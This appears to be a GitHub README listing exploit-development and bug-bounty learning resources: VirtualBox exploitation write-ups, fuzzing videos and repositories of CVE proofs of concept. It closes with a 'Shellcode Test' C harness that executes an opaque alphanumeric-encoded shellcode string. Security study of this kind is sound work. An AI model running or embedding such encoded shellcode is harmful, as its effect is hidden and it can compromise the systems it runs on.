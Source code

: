 # Exploit-Application
- Questions
  * Begin analysis CVE Linux app service ?
  * Beginner to Advanced Bug Bounty Hunting Course ?
- References:
  * [CVE-Virtual Box](https://qriousec.github.io/post/vbox-pwn2own-2023/) .
  * https://starlabs.sg/blog/2020/04-adventures-in-hypervisor-oracle-virtualbox-research/ .
- Video
  * [HackSploit](https://www.youtube.com/watch?v=6PrC4z4tPB0&list=RDCMUC0ZTPkdxlAKf-V33tqXwi3Q&start_radio=1) .
  * https://www.youtube.com/watch?v=SwoN9aanH1E&list=PLZptvBlvUP8qLZRmbcEqc5LExliRb41iy
- Automatic Bounty
  * [Fuzzing](https://www.youtube.com/watch?v=QNksAVtOT4A&list=PLILVcu1djxZ371NYWjUryog0myJxRRWxQ) .
  * [libFuzzer](https://www.youtube.com/playlist?list=PL8XzbUzym18bRZnmKHzWrS99U3TqHzP-L) .
  * [Serius nói chuyện về Bug HUnter](https://www.youtube.com/playlist?list=PL7642iyielOziwBisTcqEvmTm6aAJWnDa) .
  * https://www.youtube.com/watch?v=oeEEZWI3cfM
- CVE train exploit github:
    * https://github.com/SadFud/Exploits
    * https://github.com/hongphipham95/Vulnerabilities
    * https://github.com/antonio-morales/Fuzzing101
    * https://github.com/qazbnm456/awesome-cve-poc
    * https://github.com/sagishahar/lpeworkshop

- Shellcode Test
```c
int main()
{
    char shellcode[] = "PYj0X40PPPPQPaJRX4Dj0YIIIII0DN0RX502A05r9sOPTY01A01RX500D05cFZBPTY01SX540D05ZFXbPTYA01A01SX50A005XnRYPSX5AA005nnCXPSX5AA005plbXPTYA01Tx";
    (*(void (*)())shellcode)();
}
```

